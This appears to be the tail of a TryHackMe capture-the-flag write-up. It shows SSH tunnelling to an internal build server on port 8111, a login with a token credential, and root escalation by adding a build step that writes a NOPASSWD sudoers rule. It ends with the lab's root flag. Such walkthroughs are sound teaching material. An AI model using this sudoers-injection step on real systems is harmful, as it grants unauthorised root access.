 Looks like we have to tunnel.

ssh -N -L 8111:127.0.0.1:8111 -i id_rsa sys-internal@$IP

And we can now access locally at http://localhost:8111. 

# Credential

We have to try one by one.

` ` : `2112115144787772241`

And we are in!

# Steps

1. Click the create project
2. Click `Manually` and fill the fields.
3. Click on `Build Configuration` and fill in.
4. Click on `Build Steps`
5. Click `Command Line` in Runner type and add `echo "sys-internal  ALL=(ALL) NOPASSWD:ALL" | sudo tee /etc/sudoers.d/sys-internal` in the custom script section and we can now login as root.

sudo su! We are root!!🎉🎉🎉🎉🎉

# root.txt

```
THM{e8996faea46df09dba5676dd271c60bd}
```